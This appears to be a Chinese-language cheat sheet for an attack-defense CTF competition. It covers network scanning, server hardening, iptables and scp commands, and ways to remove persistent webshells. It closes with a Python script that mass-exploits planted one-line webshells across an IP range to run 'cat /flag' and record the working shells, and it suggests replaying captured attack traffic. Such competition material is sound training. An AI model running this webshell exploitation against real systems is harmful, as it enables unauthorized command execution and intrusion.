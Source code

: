 扫ip
nmap –sn 192.168.71.0/24

```bash
```
1.先备份服务器
2.修改ssh密码
3.dump源码
4.查找是否有一句话木马
5.使用 `find / -name *flag*` 或 `grep -rn "flag" *` 类似的语句可以快速发现 flag 所在的地方，方便后续拿分。
6.bash
```bash
# ban IP
iptables -I INPUT -s xxx.xxx.xxx.xxx -j DROP
# 解封
iptables -D INPUT -s xxx.xxx.xxx.xxx -j DROP
# 查看当前IP规则表
iptables -list

# scp 命令上传下载
# 下载 scp 
scp -P port username@servername:/path/filename /tmp/local_destination
# 上传 scp
scp /path/local_filename -P port username@servername:/path

# 从服务器下载整个目录
scp -P port -r username@servername:remote_dir/ /tmp/local_dir 
# 例如：
scp -P port -r codinglog@192.168.0.101 /home/kimi/test  /tmp/local_dir

```

防守策略：
1. 重中之重：备份网站源码和数据库。这个作用有二，一是以防自己魔改网站源码或数据库后无法恢复，二是裁判一般会定时 Check 服务是否正常，如果不正常会进行扣分，因此备份也可以防对手入侵主机删源码后快速恢复服务。

2. 系统安全性检查。就是不该开的端口 3306 有没有开启、有没有限制 SSH 登陆、SSH密码 修改、MySQL 是否为默认密码等等，这里可以用脚本刷一遍。

3. 部署 WAF。用自己提前准备好的 WAF，使用脚本进行快速部署，但是要注意验证会不会部署完后服务不可用。

4. 修改权限。比如说 MySQL 用户读表权限，上传目录是否可执行的权限等等。

5. 部署文件监控脚本。监控可读写权限的目录是否新增、删除文件并及时提醒。这里说下，如果被种了不死马的话通常有以下几种克制方法：

强行 kill 掉进程后重启服务

建立一个和不死马相同名字的文件或者目录

写脚本不断删除文件

不断写入一个和不死马同名的文件

6. 部署流量监控脚本或开启服务器日志记录。目的主要是为了进行流量回放，看其它大佬如何用我们没发现的漏洞来打我们的机子，抓取到之后把看不懂的流量直接回放到别的机子去，这里还得提到，我们自己在攻击的时候，也要试着混淆一下自己的攻击流量，不能轻易被别人利用。


一句话木马批量利用脚本：
```Python
#coding=utf-8
import requests
url_head="http://xxx.xx.xxx."    #网段
url=""
shell_addr="/Upload/index.php"
passwd="xxxxx"                    #木马密码
port="80"
payload =  {passwd: 'system(\'cat /flag\');'}

webshelllist=open("webshelllist.txt","w")
flag=open("firstround_flag.txt","w")

for i in range(30,61):
    url=url_head+str(i)+":"+port+shell_addr
    try:
        res=requests.post(url,payload,timeout=1)
        if res.status_code == requests.codes.ok:
            result = url+" connect shell sucess,flag is "+res.text
            print result
            print >>flag,result
            print >>webshelllist,url+","+passwd
        else:
            print "shell 404"
    except:
        print url+" connect shell fail"

webshelllist.close()
flag.close()
```



